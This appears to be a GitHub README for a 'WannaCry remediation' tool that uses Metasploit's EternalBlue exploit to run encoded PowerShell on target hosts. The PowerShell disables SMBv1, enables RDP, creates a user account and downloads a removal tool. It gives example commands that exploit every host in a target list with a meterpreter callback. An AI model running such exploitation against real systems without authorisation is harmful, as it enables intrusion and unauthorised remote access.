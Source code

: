 ### Wannacry exploitation to remediate tool summary
This tool will leverage Metasploit and the MS17_010_Eternal_Blue exploit to attack the target systems.    
The tool generates an encoded powershell payload based on the set CLI arguments.  
Once the successfully exploitated meterpreter session connects back to the multi handler, the encoded payload is passed to the target.  
The payload then executes in memory.  

### Warning:
    This tool is deisgned as a last resort for remediation of the WannaCry ransomware
    Use at YOUR OWN RISK 
    The metasploit exploit used may crash or destabilize the target systems
    Use only on systems you have permission to exploit
    It is recommended that this tool is used by engineers familiar with metasploit, eternalblue, python, and powershell

### Use Case:
    Systems infected by ransomware that targets SMB vulnerabilities
    Systems vulnerable to SMB vulnerabilities
    Unmanaged systems that have no clear identification of ownership which may be vulenrable or infected

### When Not to Use:
    Systems you do not own or have permission to target
    Production infrastructure: your companies exchange servers, active directory, etc

### Results:
    A json results file will be written to the working directory upon completion
    A log file will be written to the working directory
    A metasploit resource file will be written to the working directory
    A powershell file will be written to the working directory
    A sanatized rhosts file will be written to the working directory
    
### Notes:
    Special characters in the password may need to be escaped ex: asdf\!dsaf\!
    Password must comply with Windows complexity rules
    Username must comply with Windows complexity rules
    Microsoft malicious software removal tool must be downloaded and placed somewhere accessible to your targets
        Download location: https://www.microsoft.com/en-us/download/malicious-software-removal-tool-details.aspx
    Tool only supports the metasploit eternalblue exploit but can be extended as desired

### Command line options:
    Usage:
      wannacry_remediation.py --help
      wannacry_remediation.py [--smb1 --rdp] [(--clean --url=<url>)] [--logon=<message>] [(--username=<username> --password=<password>)] [(--remediate --rhosts=<rhosts> --lhost=<lhost> --lport=<lport>)]
    
    Options:
      --help                    Show help screen
      --smb1                    Add disable SMBv1 to encoded powershell
      --rdp                     Add enable rdp to encoded powershell
      --clean                   Add download and run Microsoft malicious software removal tool during exploit to encoded powershell
      --url=<url>               URL for exploited infected systems to download Microsoft malicious software removal tool
      --username=<username>     Username of user created in encoded powershell
      --password=<password>     Password of user created in encoded powershell
      --logon=<message>         Add enable Windows logon message to encoded powershell
      --remediate               Run metasploit to execute encoded powershell against rhosts
      --rhosts=<rhosts>         Absolute file path for rhosts targets file
      --lhost=<lhost>           Host IP for the metasploit multi handler
      --lport=<lport>           Host port for the metasploit multi handler

### Examples:
    # Run tool to generate a powershell encoded command string written to a ps1 file
    $ sudo python3 wannacry_remediation.py --clean --url=http://simplewebserver/removal.exe --smb1 --rdp --username=Albert --password=einste\!n --logon="contact your infosec team"

    # Run tool to generate a powershell encoded command string
    # Once metasploit gets a meterpreter the powershell will be auto executed against target
    # Exploitation of all targets in rhost will be attempted
    $ sudo python3 wannacry_remediation.py --clean --url=http://simplewebserver/removal.exe --smb1 --rdp --username=Albert --password=einste\!n --logon="contact your infosec team" --remediate --rhosts=rhosts --lhost=SourceIP --lport=SourcePort
